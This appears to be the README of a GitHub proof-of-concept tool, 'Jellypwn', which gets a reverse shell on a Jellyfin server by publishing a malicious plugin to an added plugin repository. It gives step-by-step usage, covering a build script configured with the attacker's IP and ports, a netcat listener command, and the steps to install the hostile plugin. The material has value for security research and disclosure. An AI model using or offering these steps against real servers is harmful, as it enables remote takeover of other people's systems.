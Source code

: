 # Jellypwn

Get a reverse-shell on jellyfin using plugins

<https://github.com/jellyfin/jellyfin-web/issues/4653>

**TDLR;** Jellyfin allows you (admin user) to upload plugins to the server, these plugins are just .zip files with a dll file inside it. You can upload a plugin that executes a reverse-shell on the server.

## PoC video

<!--![website2](https://github.com/ScribblerCoder/Jellypwn/assets/35840617/eec2b7b0-43af-4c65-9a65-19ccfb555718)-->
<p align="center">
<img src="https://github.com/ScribblerCoder/Jellypwn/assets/35840617/eec2b7b0-43af-4c65-9a65-19ccfb555718" width="800">
</p>
<br/>

## How to use

This repo builds the plugin and hosts it on a webserver, using microsoft's dotnet SDK docker image. You can build the plugin yourself if you have dotnet.

```console
bash build.sh [-p LISTENPORT] [-l WEBPORT] [-i IP]
```

Then run a netcat listener on the port you specified

```console
nc -lvnp LISTENPORT
```

To install your plugin on jellyfin you need to add a reposiory to the plugin catalog, you can do this by going to the plugin catalog and clicking on the "Repositories" Tab. Then click on "+" button, add the url of the webserver where you are hosting the plugin. Then your plugin should appear in the catalog for installation.

